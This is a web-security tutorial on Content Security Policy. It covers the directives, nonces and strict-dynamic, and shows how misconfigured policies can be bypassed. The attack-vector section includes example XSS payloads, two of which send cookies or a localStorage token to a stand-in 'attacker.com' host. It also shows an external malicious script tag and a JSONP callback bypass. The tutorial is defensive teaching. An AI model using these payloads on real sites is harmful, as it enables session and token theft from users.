


## What is CSP?

A [CSP][1] (**C**ontent **S**ecurity **P**olicy) is an HTTP response header 
that tells the browser which sources it should trust to load scripts, styles, fonts, images, and other resources.
Anything from an unlisted source is blocked before it can run or render.

```properties
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; ...
```

It is a second line of defense.
Even if an attacker finds a way to [inject code][2] into your page, the browser will refuse to execute it.

## How it works

### Policy Directives

Here is a list of directives you can set:

| Directive         | Value                                                 | Reason                                                                                                                                                  |
|-------------------|-------------------------------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------|
| `default-src`     | `'self'`                                              | Restrictive fallback for any resource type not listed below.                                                                                            |
| `font-src`        | `'self' https://fonts.gstatic.com`                    | Font files served by a trusted font provider.                                                                                                           |
| `img-src`         | `'self' data: blob:`                                  | Covers same-origin images, inline data URIs, and dynamically generated image placeholders.                                                              |
| `connect-src`     | `'self' https://api.example.com`                      | API calls to your own backend (`'self'`) and trusted third-party APIs.                                                                                  |
| `frame-ancestors` | `'none'`                                              | Prevents the app from being embedded in an `<iframe>` (clickjacking protection).                                                                        |
| `base-uri`        | `'self'`                                              | Blocks `<base>` tag injection, which could redirect relative URLs.                                                                                      |
| `form-action`     | `'self'`                                              | Prevents forms from being submitted to external URLs.                                                                                                   |
| `object-src`      | `'none'`                                              | Blocks legacy plugins like Flash.                                                                                                                       |
| `script-src`      | `'self' 'nonce-{nonce}' 'strict-dynamic'`             | Nonce for trusted scripts; `strict-dynamic` propagates trust to dynamically-loaded scripts without requiring individual domain allowlisting.            |
| `style-src`       | `'self' 'nonce-{nonce}' https://fonts.googleapis.com` | Nonce for trusted inline styles; domain allowlist for external stylesheets. In development, `'unsafe-inline'` may be needed for Hot Module Replacement. |

These directives define which sources are trusted for scripts, styles, fonts, images, and other resources.
Anything not explicitly allowed is blocked by the browser.
Because scripts and styles are the most sensitive for injection attacks, they deserve extra attention.

### For scripts and styles

#### Why `nonce`?

A **nonce** (`number used once`) is a cryptographically secure random token generated for each HTTP response.

The server does two things with it:

1. Adds `'nonce-{value}'` to the `script-src` directive in the CSP header.
2. Stamps the same value as a `nonce="..."` attribute on every trusted `<script>` tag.

The browser only executes scripts whose nonce attribute matches the one in the header. Because the nonce is random and
changes on every request, an attacker who injects a script cannot know the current value, so the injected tag has no
valid nonce and is silently blocked.



A [XSS][4] (Cross-Site Scripting) happens when an attacker injects a script into a page that users trust. 
The injection can come from user-generated content stored in a database, 
a query-string parameter reflected in the HTML, or a compromised third-party dependency.

In the browser console, you will see violations when third-party scripts try to execute
(for example marketing or analytics scripts that dynamically load more code).
You then need to authorize legitimate sources and update your CSP header.

### Why `strict-dynamic`?

Modern apps load many JS chunks dynamically at runtime (like [Next.js][3]). Listing every chunk URL in the CSP is impractical.
`strict-dynamic` solves this: any script that already has a valid nonce is allowed to load further scripts, 
regardless of their origin.



An attacker cannot reuse a `nonce` because it should be unpredictable and rotated on every response.
An XSS attack usually depends on previously injected script, which means most injected payloads become useless
without a valid nonce.
CSP is not a silver bullet, but it significantly reduces the attack surface.

## CSP attack vectors

A misconfigured CSP can provide a false sense of security.
Here are a few examples of vulnerable policies in [`script-src`][5] and how an attacker might exploit them.

Why would some of these configurations exist? Backward compatibility so you can progressively enable CSP on your app,
or even for local development. Most likely you wouldn't see that on production.

### With `'unsafe-inline'`

This is the most straightforward vulnerability.
If `script-src` contains `'unsafe-inline'`, an attacker can execute inline script.

-   **Vulnerable Policy**: `script-src 'self' 'unsafe-inline'`
-   **Attack Vector**: An attacker finds a way to inject a `<script>` tag into the page (for example through an input field).
-   **Example Payload**:
    ```html
    <script>
      fetch('https://attacker.com/steal?cookie=' + document.cookie);
    </script>
    ```
-   **Threat**: Inline script injection risk is critical. (however, cookie theft only works if cookies are not `HttpOnly`).

### Wildcard (`*`) in `script-src`

Allowing scripts from any domain is extremely risky. An attacker can host a malicious script on any server and execute it.

-   **Vulnerable Policy**: `script-src *`
-   **Attack Vector**: The attacker injects a script tag pointing to their own malicious server.
-   **Example Payload**:
    ```html
    <script src="https://attacker-controlled-domain.com/malicious.js"></script>
    ```
    The `malicious.js` file could contain anything, for example:
    ```javascript
    // malicious.js
    alert('XSS via script-src *');
    ```
-   **Threat**: Near full script compromise. Note: `*` does not automatically allow special schemes like `data:` or `blob:`.

### With `'unsafe-eval'`

The `'unsafe-eval'` directive allows the use of `eval()` and similar functions that create code from strings.

-   **Vulnerable Policy**: `script-src 'self' 'unsafe-eval'`
-   **Attack Vector**: Many libraries use `eval()`-like functions.
    If an attacker can control a string that is passed to one of these functions, they can execute arbitrary code.
-   **Example Payload**: Imagine a part of the application that takes a user-provided mathematical expression and evaluates it.
    ```javascript
    // Vulnerable code on the site
    let result = eval(userInput);
    ```
    An attacker could provide a payload like:
    ```javascript
    (function(){ fetch('https://attacker.com/steal?data=' + btoa(localStorage.getItem('user_token'))); return 0; })()
    ```
-   **Threat**: This allows an attacker to execute arbitrary JavaScript code,
    leading to data theft or other malicious actions, even without injecting `<script>` tags.

### Insecure JSONP endpoints

If a trusted domain in `script-src` has a JSONP endpoint, it can be abused to bypass the CSP.
A JSONP endpoint often takes a callback parameter from the URL and wraps the JSON response in it.

-   **Vulnerable Policy**: `script-src 'self' https://trusted-but-vulnerable.com`
-   **Attack Vector**: The attacker finds a JSONP endpoint on the trusted domain that allows arbitrary callback values.
-   **Example Payload**:
    ```html
    <script src="https://trusted-but-vulnerable.com/api/jsonp?callback=alert(document.domain)"></script>
    ```
    Depending on endpoint behavior, the response can invoke attacker-chosen callable code in page context.
-   **Threat**: The attacker can execute arbitrary JavaScript in the context of the vulnerable page,
    bypassing the domain restriction of CSP. The script is served from a trusted domain, so the browser allows it.


[1]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
[2]: https://web.dev/articles/strict-csp
[3]: https://nextjs.org/docs/app/guides/content-security-policy
[4]: https://owasp.org/www-community/attacks/xss/
[5]: https://www.w3.org/TR/CSP3/#directive-script-src
